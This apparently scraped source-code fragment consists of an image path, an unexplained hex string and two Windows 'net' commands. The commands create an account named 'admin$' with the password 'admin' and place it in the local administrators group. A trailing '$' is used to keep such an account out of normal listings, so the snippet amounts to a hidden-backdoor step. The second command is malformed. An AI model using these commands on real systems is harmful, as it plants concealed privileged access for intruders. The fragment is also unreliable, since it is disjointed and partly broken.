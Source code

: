 ```
233ccaac273d1d6d
```

```
net user admin$ admin /add
```

```
net localgroup administrators admin$ add
```
